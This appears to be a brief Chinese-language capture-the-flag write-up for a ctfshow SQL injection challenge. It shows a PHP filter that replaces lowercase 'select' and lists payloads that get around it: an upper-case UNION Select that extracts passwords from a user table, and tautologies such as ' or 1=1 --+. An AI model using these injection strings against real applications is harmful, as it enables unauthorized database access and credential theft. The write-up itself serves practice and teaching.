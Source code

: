 # 知识点
过滤小写select
# 思路
```plsql
function waf($str){
	return str_replace('select', 'ctfshow', $str);
}
```
### 可以大写绕过
```plsql
' union Select password,2,3 from ctfshow_user --+
```
### 或者
```plsql
' or id =26 --+
```
```plsql
' or 1=1 --+
```
```plsql
' or username='flag' --+
```
